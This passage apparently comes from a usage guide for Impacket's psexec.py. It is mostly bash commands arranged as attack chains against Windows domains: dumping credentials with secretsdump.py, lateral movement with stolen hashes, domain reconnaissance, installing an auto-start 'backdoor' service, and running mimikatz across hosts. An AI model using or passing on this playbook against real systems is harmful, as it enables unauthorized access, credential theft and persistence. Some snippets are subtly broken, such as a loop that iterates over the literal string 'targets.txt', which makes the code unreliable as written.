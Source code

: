### Network Options
```bash
# Specify target IP (useful for host header manipulation)
python3 psexec.py domain.com/administrator:password@target.domain.com -target-ip 192.168.1.100

# Use custom SMB port
python3 psexec.py domain.com/administrator:password@target.domain.com -port 445

# Enable debug output
python3 psexec.py domain.com/administrator:password@target.domain.com -debug
```

## Attack Chain Integration

### Initial Lateral Movement
```bash
# Step 1: Obtain credentials via various methods
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Step 2: Use extracted admin hash for lateral movement
python3 psexec.py -hashes :admin_hash administrator@target1.domain.com

# Step 3: Extract more credentials from new target
python3 secretsdump.py -hashes :admin_hash administrator@target1.domain.com
```

### Post-Exploitation Chain
```bash
# Step 1: Gain access via psexec
python3 psexec.py domain.com/administrator:password@target.domain.com

# Commands to run inside psexec shell:
# whoami /priv
# net user /domain
# net group "Domain Admins" /domain
# reg query HKLM\SYSTEM\CurrentControlSet\Control\LSA /v DumpSecrets
```

### Persistence Establishment
```bash
# Step 1: Access system via psexec
python3 psexec.py domain.com/administrator:password@target.domain.com

# Step 2: Create persistent backdoor (in psexec shell)
# sc create backdoor binPath= "C:\Windows\System32\cmd.exe /c powershell.exe -Command ..."
# sc config backdoor start= auto
# sc start backdoor
```

### Credential Harvesting Chain
```bash
# Step 1: Access multiple systems
for target in targets.txt; do
    python3 psexec.py -hashes :hash administrator@$target "hostname && whoami"
done

# Step 2: Run mimikatz on each system
python3 psexec.py -hashes :hash administrator@target.domain.com -file mimikatz.exe

# Step 3: Collect results
python3 psexec.py -hashes :hash administrator@target.domain.com "type C:\temp\output.txt"
```
